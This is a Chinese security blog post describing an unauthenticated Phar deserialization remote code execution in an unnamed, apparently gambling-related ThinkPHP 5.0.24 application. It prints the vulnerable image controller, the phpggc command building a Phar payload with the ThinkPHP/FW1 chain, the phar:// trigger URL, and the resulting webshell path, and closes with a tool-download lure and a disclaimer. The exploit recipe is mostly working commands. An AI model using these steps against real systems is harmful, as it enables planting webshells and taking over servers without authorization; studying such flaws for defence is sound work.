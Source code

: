 #  【代码审计】记某次项目前台反序列化RCE漏洞研究   
原创 Mstir  星悦安全   2025-04-18 06:08  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x01 过程  
  
一套涉Zha的系统，名字就不给出了，貌似用的人还挺多.  
  
该项目框架:ThinkPHP 5.0.24 Debug:True  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wE9nUZDr1NkPdCIIQ6FgB4cwKHd8eYZZIalVibHFUDyeCP13LaxeY2g1g/640?wx_fmt=png&from=appmsg "")  
  
翻遍了所有代码，上传点都限制的比较死，只能传白名单里的后缀，SQL注入也基本没有，只能去找找别的地方.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEZWoXD8OibszibKf3gIQEmhJ3J50XHupQwmeKVl7Aux6WCozvPz2T2pmw/640?wx_fmt=png&from=appmsg "")  
  
这时候看到位于 /application/api/controller/Image.php 控制器中的Image 方法存在file_get_contesnts函数，这不就来了么.  
  
```
<?phpnamespace app\api\controller;use app\common\controller\Api as CommonController;final class Image extends CommonController{    protected $noNeedLogin = '*';    protected $noNeedRight = '*';    public function _initialize()    {        parent::_initialize();    }    public function image()    {        $imageData = file_get_contents(input('url'));        $image = imagecreatefromstring($imageData);        header("Content-Type: image/jpeg");        imagejpeg($image);        imagedestroy($image);        exit;    }}
```  
  
  
众所周知，file_get_contents 文件不仅能读取文件，在ThinkPHP 5.0.24 中是可以触发Phar反序列化漏洞的.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEMW8orZvVA85VniaBvPeE36OUXsLZSa6BdeGmkN3pzKqxmzZJ2pE8DSw/640?wx_fmt=other&from=appmsg "")  
  
**首先需要用phpggc 生成一个Phar反序列化包，用ThinkPHP/FW1 这个利用链，注意需要绝对路径打对，然后本地放一个aaa.php 这里是你要写入的内容 (phpggc 可能会出点问题，把出问题的利用链文件直接删除即可).**  
  
****  
```
php.exe phpggc -p phar -o aaa.phar ThinkPHP/FW1 /www/wwwroot/xxxxx.com/public/ aaa.php
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEonk44mRGP93dkv5KK2AkUYKETE5soxDGpgoibv5kmeGYLPuxWOmrZZg/640?wx_fmt=other&from=appmsg "")  
  
**这里上传点颇多，随便找个点传上去即可.**  
  
****  
**然后访问直接 /api/image/image?url=phar://./upload/图片地址.png 即可直接调用该利用链写入SHELL到其目录下**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEwcFDUbsCnUmLt3ucXCq8Cld43Rr3JXIQWuk6AlOpNpPMDOjhhYBAaw/640?wx_fmt=png&from=appmsg "")  
  
**http://192.168.200.128/3b58a9545013e88c7186db11bb158c44.php**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEC15l3mhFHibyDEp3CRS5JgqzZRKiba4PaMN4r2sTuicR42Dducmbd3GxQ/640?wx_fmt=png&from=appmsg "")  
## 0x02 phpggc下载  
  
  
**标签:代码审计，0day，渗透测试，系统，通用，转转，Deepseek，AI**  
  
**phpggc关注公众号，发送 250418 获取!**  
  
****  
  
  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
